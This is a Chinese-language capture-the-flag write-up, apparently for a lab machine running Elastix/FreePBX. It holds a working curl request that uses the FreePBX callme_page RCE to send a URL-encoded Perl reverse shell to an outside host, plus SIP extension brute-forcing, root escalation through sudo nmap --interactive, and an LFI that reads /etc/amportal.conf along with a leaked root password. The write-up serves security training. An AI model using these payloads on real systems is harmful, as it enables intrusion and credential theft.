nmap

```bash
sudo nmap -T4 -Pn -sS -n -p- -vv -sV 10.10.10.7
```



80，443端口



不知道是什么版本，搜索一下，发现2.2.0存在rce漏洞



python脚本地址

[https://www.exploit-db.com/exploits/18650](https://www.exploit-db.com/exploits/18650 "https://www.exploit-db.com/exploits/18650")

漏洞原理：

```bash
#https://seclists.org/fulldisclosure/2012/Mar/234

#RCE exp:
[HOST]/recordings/misc/callme_page.php?action=c&callmenum=[PHONENUMBER]@from-internal/n
Application: system
Data: [CMD]


```

尝试执行一下，发现会报错，看了下脚本代码挺简单的，就是访问了一下https，然后poc里的Data值写了反弹shll的命令，这里直接通过curl访问一下这个URL

```bash
curl -k --tlsv1 'https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=1000@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.16.2%3a23333%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'


#Decode

https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=1000@from-internal/n
Application: system
Data: perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.16.2:23333");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

```



报错，代码返回提示连接失败，查了下发现是sip 协议的`extension` 不正确，意思是1000这个用户不正确，

sip协议格式简介

```bash
#https://blog.csdn.net/w0z1y/article/details/109352365

#示例

Via: SIP/2.0/TCP user1pc.domain.com;branch=z9hG4bK776sgdkse
From: sip:user1@domain.com;tag=49583
To: sip:user2@domain.com
Call-ID: asd88asd77a@1.2.3.4
Max-Forwards: 70
Contact: sip:192.168.100.1:1111
Content-Type: text/plain；（application/sdp; application/cpim;）
Content-Length: 18

```

kali的svwar工具是一个针对SIP协议的渗透工具，可以爆破用户名，也就是`extension`值

```bash
svwar -m INVITE -e100-1000 10.10.10.7
```

扫描结果



将`extension`改为233，重新请求

```bash
curl -k --tlsv1 'https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.16.2%3a23333%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'


#Decode

https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n
Application: system
Data: perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.16.2:23333");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

反弹shell成功



提权

```bash
#whoami 当前用户
#id 当前用户权限
#sudo -l 查看有root权限的程序
```

居然有nmap，还是root权限，查看一下版本



nmap 2.02 - 5.21版本可以打开交互界面提权

```bash
sudo nmap --interactive

nmap>!sh

```

提权成功



其他思路

本地文件包含漏洞

```bash
https://www.exploit-db.com/exploits/37637
```



直接可以找到给出关键的文件



访问URL

```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

直接获取到账号密码



web后台和ssh使用一样的密码

直接登录ssh，

root/jEhdIekWmdjE


